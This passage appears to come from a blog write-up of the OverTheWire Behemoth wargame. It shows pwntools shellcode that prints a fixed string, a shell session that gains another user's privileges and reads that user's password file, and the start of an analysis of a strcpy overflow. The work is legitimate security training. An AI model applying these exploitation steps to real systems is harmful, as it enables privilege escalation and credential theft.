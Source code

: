 This program calls another program `/behemoth/behemoth6_reader`, reading the
output string and comparing that string to a fixed value: `HelloKitty`. If the
value is correct, it starts a shell. Opening up `behemoth6_reader` in
BinaryNinja, we can see reads the contents of a file into memory:

![level7_binaryninja]({{ site.baseurl }}/img/otw-behemoth/level7_binaryninja2.png)

And then simply executes it as code.

![level7_binaryninja]({{ site.baseurl }}/img/otw-behemoth/level7_binaryninja3.png)

I chose to use pwntools to generate shellcode that prints the string
`HelloKitty` and then exits.

{% highlight python %}
alex@orpheus ~/D/b/level7> python
Python 2.7.12 (default, Nov 19 2016, 06:48:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> shellcode = asm(shellcraft.i386.echo('HelloKitty')+shellcraft.i386.exit(0)) 
>>> f = open('shellcode.txt', 'wb')
>>> f.write(shellcode)
>>> f.close()
{% endhighlight %}

{% highlight bash %}
behemoth6@melinda:/tmp/ninjabody$ /behemoth/behemoth6
Correct.
$ id
uid=13006(behemoth6) gid=13006(behemoth6) euid=13007(behemoth7) groups=13007(behemoth7),13006(behemoth6)
$ cat /etc/behemoth_pass/behemoth7
XXXXXXXXXX
{% endhighlight %}

## Level7 &rarr; Level8 {#level8}

![level8_binaryninja]({{ site.baseurl }}/img/otw-behemoth/level8_binaryninja1.png)

Initially opening this program in [BinaryNinja], it looks like it zeroes
environment variables at the beginning of main. This means we won't be able to
store our shellcode in an environment variable as we did previously.

![level8_binaryninja]({{ site.baseurl }}/img/otw-behemoth/level8_binaryninja2.png)

Main then checks the contents of the provided argument and, if it contains any
non-printable characters, it quits. So we won't be able to store our naive
shellcode in the buffer itself.

![level8_binaryninja]({{ site.baseurl }}/img/otw-behemoth/level8_binaryninja3.png)

Finally, there's a vulnerable `strcpy` if we pass the previous check.


[Narnia]: http://overthewire.org/wargames/narnia/
[Behemoth]: http://overthewire.org/wargames/behemoth/
[OverTheWire]: http://overthewire.org
[BinaryNinja]: http://binary.ninja
[IDA]: https://www.hex-rays.com/products/ida/index.shtml
[Hex Rays]: https://www.hex-rays.com/products/decompiler/index.shtml
[pwndbg]: https://github.com/pwndbg/pwndbg
[PEDA]: https://github.com/longld/peda
[Voltron]: https://github.com/snare/voltron
[pwntools]: https://github.com/Gallopsled/pwntools